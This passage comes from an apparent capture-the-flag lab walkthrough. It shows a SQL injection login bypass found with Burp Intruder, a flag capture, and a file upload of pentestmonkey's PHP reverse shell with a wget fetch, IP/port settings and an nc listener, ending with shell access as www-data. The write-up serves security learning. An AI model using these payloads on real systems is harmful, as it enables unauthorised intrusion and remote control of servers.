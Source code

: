 ```

```
Failed to set session cookie. Maybe you are using HTTP instead of HTTPS to access phpMyAdmin.
```

And this is because phpMyAdmin checks the session cookie and may refuse to set it if certain headers are missing, malformed, or if a previously bad session ID is reused.
Burp Intruder does not handle cookies dynamically. It reuses the exact cookie from the original request, even if it's invalid or expired. Firefox, on the other hand, handles cookies normally with a fresh session.
So to bypass this protection we could change our tools to find one that can generate a new session each time, but for this box I'll just go ahead and test our second login interface, the home webpage for data storage purposes.

However, we have many combinations to try, so let's use the ```Intruder``` tab of Burp Suite instead of the repeater to save some time.
Like for the repeater, we send a concludent request ```to Intruder```, choose the ```sniper attack``` type, and in the ```Positions``` tab, click ```Clear``` to remove default marks if there is already.
Then, highlight just the value you want to inject into (like the username or password) and click "Add §".
And now we just need to put our payloads list (the one on ```/data/injection-sql.txt```) on the payload tab, inside the payload configuration, and click on ```Start attack```.
A new window open, use filter by length to have the results with a shorter character number in result, and here you can see results that didn't return any error, so maybe they work ?

<img width="2997" height="1661" alt="POC4BurpSuiteIntruderAttack" src="https://github.com/user-attachments/assets/9d53e100-f6db-403b-976e-6d70870a19ba" />

After testing ```admin' or '1'='1``` as password it work, now I'm logged in the website and can import a file here.

<details><summary>Payload Breakdown</summary></details>

I can see in this webpage the second flag too : ```FLAG2{L-ARCHIVAGE-DE-DONNEES-SANS-VERIFICATION-EST-TRES-DANGEREUX}``` which could be in english ```FLAG2{STORING-DATA-WITHOUT-VERIFICATION-IS-VERY-DANGEROUS}```.

## Reverse shell

I choose to use again the usefull [pentestmonkey php revshell](https://github.com/pentestmonkey/php-reverse-shell)
```wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php```

Don't forget to change your ip and port listening

```
$ip = '192.168.56.56';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
```

I only needed to upload it as it in the upload webpage and it worked.

<img width="1194" height="434" alt="POC4phprevshell" src="https://github.com/user-attachments/assets/d9c4054a-4386-45a0-852b-4d6caa91217e" />

Before processing further we need to listen on the right port (the one indicated in the revshell) with ```nc -lvnp 4444```

Now I just need to go to the location indicated by the website to find my revshell, simply go to the right url : ```http://192.168.56.158/data/php-reverse-shell.php```
And it will execute the code and here we are, with a revshell logged as ```www-data```

```